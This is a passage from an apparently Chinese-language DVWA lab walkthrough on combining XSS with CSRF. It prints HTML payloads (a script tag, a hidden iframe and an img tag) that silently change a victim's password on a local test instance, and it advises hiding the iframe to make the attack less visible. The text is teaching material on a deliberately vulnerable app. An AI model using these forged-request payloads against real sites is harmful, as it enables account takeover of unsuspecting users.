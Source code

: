 

![img](https://image.3001.net/images/20200526/15904788968136.png)



使用 curl -i 可以轻松查看重定向信息

1. **配合 XSS**

这种 XSS 和 CSRF 结合成功率很高，攻击更加隐蔽。

首先新建一个带有 xss 攻击语句的 html 页面，内容如下：

```html
<html>
<head>
    <title>XSS&CSRF</title>
</head>
<body>
<script src="http://127.0.0.1:8888/vulnerabilities/csrf/?password_new=222&password_conf=222&Change=Change#"></script>
</body>
</html>
```

然后受害者访问 `http://127.0.0.1/xss.html` 这个页面的时候，密码就被修改成了 222

核心语句就是通过 `scirpt` 标签的 src 属性来记载攻击 payload 的 URL：

```javascript
<script src="http://127.0.0.1:8888/vulnerabilities/csrf/?password_new=222&password_conf=222&Change=Change#"></script>
```

类似的还可以使用如下标签：

`iframe` 标签使用的话记得添加 `style="display:none;"`，这样可以让攻击更加隐蔽

```html
<iframe src="http://127.0.0.1:8888/vulnerabilities/csrf/?password_new=222&password_conf=222&Change=Change#" style="display:none;"></iframe>
```

`img` 标签的 src 属性依然也可以实现攻击：





html

```html
<img src="http://127.0.0.1:8888/vulnerabilities/csrf/?password_new=222&password_conf=222&Change=Change#">
```

到这里大家应该发现规律了吧，就是 src 属性拥有跨域的能力，只要标签支持 src 的话 都可以尝试一下 xss 与 csrf 结合。

## Medium

中等级别的代码增加了 referer 判断：
